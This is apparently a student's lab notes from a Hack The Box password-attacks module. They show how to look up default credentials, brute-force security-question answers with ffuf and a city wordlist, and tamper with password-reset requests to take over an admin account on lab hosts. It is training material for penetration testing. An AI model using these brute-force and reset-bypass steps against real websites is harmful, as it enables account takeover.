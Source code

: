 # 👩‍🦰 Password Attacks

## Default Credentials

Many web applications are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application

Here are lists of default credentials for a wide variety of web applications: [CIRT.net](https://www.cirt.net/passwords) also [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub

let's imagine the following web app:

<figure><img src="../../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>

We can spot it's a bookstack web app, we can then go and see if we can't find some default creds online ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Password Reset

### Guessable Password Reset

We could imagine questions like the following:

* "`What is your mother's maiden name?`"
* "`What city were you born in?`"

Then it's on us to chase for the good wordlist such as [this](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt 
```

so let's imagine after entering our username wer got asked a question, it would look like this:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now it's on us to craft a payload:

```shell-session
ElFelixi0@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

and then we can reset password

But let's imagine we had a nice osint phase, we could pretty much guess from which country is the person from the website or the social media, we can go deaper and make a more accurate list:

```shell-session
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

### Manipulating the Reset Request

let's imagine the following:

<figure><img src="../../../.gitbook/assets/image (1355).png" alt=""><figcaption></figcaption></figure>

```http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

after that we have the security question ->

```http
<SNIP>
security_response=London&username=htb-stdnt
```

Finally, we can reset the user's password:&#x20;

```http
<SNIP>
password=P@$$w0rd&username=htb-stdnt
```

We can imagine that we can skip the security question and set the password of an entirely different account

```http
password=P@$$w0rd&username=admin
```

_**Which city is the admin user from?**_

<figure><img src="../../../.gitbook/assets/image (1356).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1357).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1358).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w city_wordlist.txt -u http://94.237.59.63:43371/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=j0527s0oqrj0q0s6qh30c626ma" -d "security_response=FUZZ" -fr "Incorrect response."
```

<figure><img src="../../../.gitbook/assets/image (1359).png" alt=""><figcaption></figcaption></figure>
